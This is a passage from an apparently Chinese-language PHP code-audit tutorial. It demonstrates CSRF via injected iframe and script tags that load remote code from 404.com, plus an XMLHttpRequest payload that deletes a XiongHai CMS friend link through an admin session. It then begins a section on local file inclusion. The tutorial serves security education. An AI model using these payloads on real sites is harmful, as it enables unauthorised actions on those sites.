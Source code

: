```
2.插入iframe标签

```

**payload：**

```
<iframe src="http://404.com/zzzp6p/1.html" />

```

还可以使用 XMLHTTPRequest 发送 POST、GET，按情况选择，这里把 payload 插入手机号码。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmqeamZanY5F0AuTtQSCdWplfHkL99l4lndSAshmhsOoxlAcHR8K1yUg/640?wx_fmt=png)

用登陆了后台后访问页面，可以看到显示修改成功。

由于没找到想要的源码我简单介绍下利用 XMLHTTPRequest 来发包, 漏洞程序还是熊海 cms 删除一友情链接

**payload 1.js：**

```
function del() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET','/xiong/admin/?r=linklist&delete=6');
    xhr.send(null);
    }
del();

```

```
payload：

```

```
<script src="http://404.com/xiong/1.js"></script>

```

```
查看留言板可以看到我们的XMLHTTPRequest已经发包了

```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqdMpF2uCUNnL2tZf8CrQrOmLcgzvFxicv8xYscCjOrvzlOb6QqLIuWmjBK0q7mowdLotDZwTQibc4mQ/640?wx_fmt=png)

比较典型的例子可以看看 **https://xz.aliyun.com/t/3177**

**0x05 文件操作审计**
===============

### **0x00 文件包含**

#### **本地包含**

本地文件包含（Local File Include）简称 LFI，文件包含在 php 中，一般涉及到的危险函数有**`include()`、`include_once()`、`require()`、`require_once()`**，在包含文件名中存在可控变量的话就可能存在包含漏洞，由于这几个函数的特性也可能产生其他漏洞，后面一一讲到。
